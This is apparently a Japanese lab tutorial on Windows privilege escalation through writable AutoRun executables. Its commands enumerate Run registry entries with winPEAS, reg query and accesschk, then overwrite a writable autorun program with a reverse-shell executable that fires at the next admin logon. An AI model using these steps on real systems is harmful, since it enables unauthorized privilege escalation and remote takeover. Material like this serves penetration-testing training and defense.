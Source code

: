 ## AutoRuns    
Windowsは、起動時に昇格した権限でコマンドを実行するように設定できます。 これらの「AutoRuns」はレジストリで設定します。 AutoRun実行ファイルに書き込むことができ、システムを再起動できる（または再起動を待つ）場合、権限を昇格できる可能性があります。  
# Privilege Escalation
1. winPEASを使用して書き込み可能なAutoRun実行ファイルをチェックします。
```
> .\winPEASany.exe quiet applicationsinfo
```
2. あるいは、AutoRunの実行ファイルを手動で列挙することも可能です。
```
> reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
    SecurityHealth    REG_EXPAND_SZ    %windir%\system32\SecurityHealthSystray.exe
    bginfo    REG_SZ    C:\BGinfo\Bginfo.exe /accepteula /ic:\bginfo\bgconfig.bgi /timer:0
    VBoxTray    REG_SZ    C:\Windows\system32\VBoxTray.exe
	  My Program	REG_SZ		"C:\Program Files\Autorun Program\program.exe"
```
を実行し、accesschk.exeでそれぞれのパーミッションを確認します。
```
> .\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```
3. C:\Program FilesAutorun ProgramのAutoRun実行ファイルは、Everyoneで書き込みが可能です。オリジナルのバックアップを作成する。
```
> copy "C:\Program Files\Autorun Program\program.exe" C:\Temp
```
4. リバースシェルの実行ファイルをコピーして、AutoRunの実行ファイルを上書きしてください。
```
> copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe"
```
5. Kali上でリスナーを起動し、Windows VMを再起動することでexploitが発動します。Windows 10では、最後にログオンしたユーザーの権限でエクスプロイトが実行されるようなので、まず「user」アカウントからログアウトし、「admin」アカウントでログインすることに注意してください。